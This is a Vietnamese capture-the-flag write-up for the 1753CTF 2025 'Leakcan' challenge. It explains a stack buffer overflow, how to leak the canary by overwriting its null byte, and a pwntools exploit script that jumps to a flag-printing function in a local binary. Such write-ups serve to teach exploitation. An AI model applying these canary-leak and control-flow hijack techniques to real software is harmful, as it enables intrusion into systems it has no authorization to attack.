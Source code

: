 # [1753CTF-2025] Leakcan
<p>Có 3 dòng cần chú ý là 23, 27 và 30. Dòng 23 và 30, đọc tối đa 120 byte đầu vào từ người dùng vào v11 có kích thước 32 byte -> Buffer overflow. Dòng 27, in dữ liệu của v11 ra màn hình.</p>

![alt text](image.png)

<p>Quan sát bảng Functions, ta có hàm your_goal để in flag ra màn hình -> Cần phải kiểm soát RIP trỏ tới hàm này để đọc flag.</p>

![alt text](image-1.png)

<p>Đặt breakpoint ngay hàm read đầu tiên, địa chỉ chứa dữ liệu là từ 0x00007fffffffe1a0 và cách giá trị canary 0x58 (88) byte.</p>

![alt text](image-2.png)

<p>Đi đến hàm write thứ 3, nó sẽ bắt đầu in dữ liệu từ 0x00007fffffffe1a0 -> Nếu ta ghi đè null byte đầu tiên của canary thì có thể leak ra giá trị canary.</p>

![alt text](image-3.png)

<p>Ta gửi lại 88 kí tự và enter -> Lúc này, null byte của canary đã bị đè bởi byte \n (kí tự xuống dòng). Byte ngay sau canary là 0x01 -> Khi leak canary, ta sẽ không lấy byte cuối cùng (0x01) và chỉ lấy từ vị trí cách byte cuối cùng 7 byte.</p>

![alt text](image-5.png)

<p>Script exploit:</p>

```
from pwn import *

p = process('./leakcan_chall')
elf = ELF('./leakcan_chall')

payload = b'a' * 88
p.sendlineafter(b'What\'s your name?\n', payload)

data = p.recv()
canary = b'\x00' + data[-8:-1]  
payload = b'a' * 88 + (canary) + b'a' * 8
payload += p64(elf.sym['your_goal'])

p.sendline(payload)
p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](image-4.png)